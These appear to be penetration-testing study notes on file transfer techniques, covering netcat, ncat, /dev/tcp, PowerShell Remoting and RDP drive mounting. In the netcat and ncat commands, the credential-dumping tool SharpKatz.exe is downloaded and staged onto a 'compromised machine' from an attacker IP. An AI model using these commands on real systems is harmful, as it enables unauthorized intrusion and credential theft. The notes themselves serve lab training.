

## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine - Listening on Port 8000
```sh
$ # Redirect stdout with > to SharpKatz.exe
$ nc -l -p 8000 > SharpKatz.exe
```

#### Ncat - Compromised Machine - Listening on Port 8000
```sh
# Close the connection (--recv-only) once file transfered
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

#### Netcat - Attack Host - Sending File to Compromised machine
```sh
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

*  The option `-q 0` will tell Netcat to close the connection once it finishes
* If we use Ncat in our attack host, we can use `--send-only` instead of `-q`. `--send-only` in both connect and listen modes causes Ncat to quit when its input runs out

#### Ncat - Attack Host - Sending File to Compromised machine
```sh
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat
```sh
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File
```sh
$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat
```sh
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File
```sh
$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

#### NetCat - Sending File as Input to Netcat
```sh
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat
```sh
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```sh
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer
* When HTTP, HTTPS, or SMB are unavailable
* We can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations
* To create a PowerShell Remoting session
	* We need administrative access
	* Be a member of the `Remote Management Users` group
	* Or have explicit permissions for PowerShell Remoting in the session configuration

```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

* Confirm WinRM port TCP 5985 is Open on

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

* Store the results in the variable named `$Session`

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

#### Copy samplefile.txt from our Localhost to the DATABASE01 Session
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
* Tools: `xfreerdp` or `rdesktop`
* Can be used to expose a local folder in the remote RDP session

#### Mounting a Linux Folder Using rdesktop
```sh
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Mounting a Linux Folder Using xfreerdp
```sh
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

* To access the directory, we can connect to `\\tsclient\`



